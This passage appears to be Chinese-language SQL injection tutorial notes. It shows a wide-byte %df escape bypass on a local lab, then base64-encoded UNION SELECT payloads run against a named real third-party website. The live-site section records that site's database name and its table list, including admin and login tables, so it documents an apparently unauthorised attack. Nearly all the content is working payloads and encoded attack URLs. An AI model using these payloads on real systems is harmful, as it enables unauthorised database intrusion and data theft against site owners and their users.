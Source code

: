 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220900-14051933-c473-44a5-9a0f-921626d0c3e2.png)

```plain
利用%df来进行绕过 
访问：http://127.0.0.1:8081/web/news.php?gtpl=simple%df' order by 17--+
执行的SQL语句：select * from sy_guestbook where gTpl='simple�\' order by 17-- '
�就会把后面的\占用了，从而绕过了转义
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220908-24189bce-1c35-486f-ae18-a2c891800c35.png)

------

- 真实WEB-数据编码接受处理-base64注入

```plain
网站：knotsolutions.com/case_study_view.php?id=NA==
NA==是Base64加密类型 4
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221128-3dd11390-81fd-4dd1-b9ed-280068e49f6c.png)

```plain
那么我们应该如何注入呢？
注入语句：4 and 1=2 union select 1,2,3
经过base64编码后：http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLDIsMw==
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220948-ef5c5c1b-4477-48e8-b542-226eb6f6ebea.png)

```plain
进行数据猜解：4 and 1=2 union select 1,database(),version()
进行编码：http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLGRhdGFiYXNlKCksdmVyc2lvbigp
记录database的值：knotwebdb
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221177-d26c592c-f4b8-461e-8ee8-8f5003261eae.png)

```plain
判断版本高于5.0，就可以用information_schema进行查询。
查询knotwebdb下的表明信息：
4 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='knotwebdb'
编码后：
http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLGdyb3VwX2NvbmNhdCh0YWJsZV9uYW1lKSwzIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyB3aGVyZSB0YWJsZV9zY2hlbWE9J2tub3R3ZWJkYic=
记录一下查询到的表：
admin,careers,casestudy,imguploads,ipadd,loginip,page,slider,socialmedia
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135221307-7f6e4327-367c-49ac-ba81-f4f39a317285.png)
